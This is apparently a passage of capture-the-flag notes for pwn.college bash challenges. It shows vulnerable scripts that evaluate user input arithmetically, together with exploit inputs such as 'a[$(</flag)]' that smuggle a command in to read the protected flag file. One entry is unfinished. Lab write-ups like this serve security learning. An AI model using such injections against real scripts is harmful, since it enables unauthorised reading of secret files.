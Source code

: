 ### exploit
```sh
/challenge/run "-v GUESSFILE /flag"
```

# Secrets of the Shell

### chall

```sh
#!/usr/bin/env -iS /opt/pwn.college/bash

PATH=/usr/bin

CHALLENGE=$RANDOM$RANDOM$RANDOM$RANDOM$RANDOM
RESPONSE="$1"

# This disables command injection. If you can find a bypass of it, let Zardus know!
set -T
readonly BASH_SUBSHELL # props to HAL50000 for the bypass necessitating this fix
trap '[[ $BASH_SUBSHELL -gt 0 ]] && exit' DEBUG

if (( RESPONSE == CHALLENGE ))
then
	echo "Success! Here's part of the flag:"
	cat /flag | head -c10
else
	echo "Wrong!"
	cat /flag | md5sum
fi
```

### exploit
```sh
/challenge/run "a[\$(</flag)]"
```
TODO

# Shell Sorcery

### chall

```sh
#!/usr/bin/env -iS /opt/pwn.college/bash

PATH=/usr/bin

CHALLENGE=$RANDOM$RANDOM$RANDOM$RANDOM$RANDOM
RESPONSE="$1"

# This disables command injection. If you can find a bypass of it, let Zardus know!
set -T
readonly BASH_SUBSHELL # props to HAL50000 for the bypass necessitating this fix
trap '[[ $BASH_SUBSHELL -gt 0 ]] && exit' DEBUG

if (( RESPONSE == CHALLENGE ))
then
	echo "Success!"
	cat /flag
else
	echo "Wrong!"
	#cat /flag | md5sum
```